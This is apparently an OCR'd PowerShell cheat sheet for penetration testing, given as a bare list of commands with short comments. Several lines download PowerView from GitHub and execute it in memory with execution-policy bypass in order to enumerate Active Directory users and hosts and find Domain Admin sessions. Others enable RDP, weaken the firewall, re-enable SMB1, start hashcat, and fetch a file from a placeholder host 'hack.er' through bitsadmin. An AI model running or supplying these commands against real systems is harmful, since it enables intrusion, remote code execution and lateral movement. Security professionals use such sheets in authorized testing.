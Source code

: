 ```bat
; Statement separator
{ } Script block
| Pipeline separator
` Escape character
    .\Powershell.exe -command <command> <parameter(s)>
    attrib +R c:\path\to\file.txt
    $var = "hello"
    Powershell.exe -command Get-HotFix
        -check Windows patch level
    Powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview1.ps1');Get-NetUser
        -display all AD users
    Powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview1.ps1');Get-UserProperties -Properties name,memberof,description,info
        -return AD user proprietary information
    set-ItemProperty -Path 'HKLM:\System\Current\ControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
        -format for making registry queries from powershell
        --enable RDP on target hostname
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
        -enable existing firewall rule, e.g. RDP allow
    powershell.exe -command New-NetFirewallRule -DisplayName "Allow Inbound Port 80" -Direction Inbound -LocalPort 80 -Protocol TCP -Action Allow
        -create new firewall rule set to allow
        --to create a block rule set -Action Block
    powershell.exe -command Get-Service
        -show all services
    powershell.exe -command Restart-Service
        -restart target service
    powershell.exe -command Get-Service Set-DNSClientServerAddress - InterfaceAlias "Ethernet" -ServerAddresses 8.8.8.8
        -Configure the DNS Server (to 8.8.8.8/Google)
    powershell.exe -command Get-Process
        -return a process listing
    Start-Job { 'C:\bin\hashcat\bin\hashcat64.exe' } -Name cracker
    bitsadmin /transfer jobname /download /priority normal http://hack.er/file.ext C:\Path\to\outfile.ext
        -download a file
        ACTIVE DIRECTORY cmdlets
    Get-Job -State
    Stop-Job cracker
    Get-Command *text*
    Get-Command -Verb Get
    Get-Command -Noun Service
    Get-Help Get-Command (-Detailed,-Full,-Examples,-Online)
        OR
    Get-Command -?
    Get-SmbServerConfiguration
    Set-SmbServerConfiguration -EnableSMB1Protocol $true
    Get-ChildItem -Path C:\path -Filter namedpipe.exe -Recurse -ErrorAction SilentlyContinue -Force
    Powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview1.ps1');Get-NetComputers
        -return listing of hosts in Active Directory
    Powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview1.ps1');Get-Information
        -return information collected on sys,reg,&c
    Powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview1.ps1');Invoke-Userhunter
        -search network for hosts in use by Domain Admin(s)
    Powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview1.ps1');Invoke-Userhunter -UserName "admin"
```